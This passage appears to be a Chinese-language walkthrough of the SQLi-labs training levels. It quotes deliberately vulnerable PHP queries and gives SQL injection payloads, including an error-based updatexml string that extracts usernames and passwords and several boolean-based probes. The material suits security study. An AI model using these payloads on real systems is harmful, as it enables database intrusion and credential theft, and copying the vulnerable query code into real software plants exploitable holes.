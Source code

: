 ```python


if __name__ == '__main__':
    database_name()
```

#### xpath注入

```
mysql> updatexml(1,concat(0x5e,database(),0x5e),1);
ERROR 1105 (HY000): XPATH syntax error: '^security^'
```

payload

```
?id=1' and updatexml(1,concat(0x5e,(substr((select group_concat(username,0x7e,password) from users),1)),0x5e),1) --+
```

### Less-6 GET - Double Injection - Double Quotes - String

双注入GET双引号字符型注入

vul

```
$id=$_GET['id'];
...
$id = '"'.$id.'"';
...
$sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";
...
	print_r(mysql_error());
```

bypass

```
?id=1"and length((select database()))>9--+
```

### Less-7 GET - Dump into outfile - String

导出文件GET字符型注入

vul

```
$id=$_GET['id'];
...
$sql="SELECT * FROM users WHERE id=(('$id')) LIMIT 0,1";
```

bypass

```
?id=1')) and length((select database()))>9--+
```
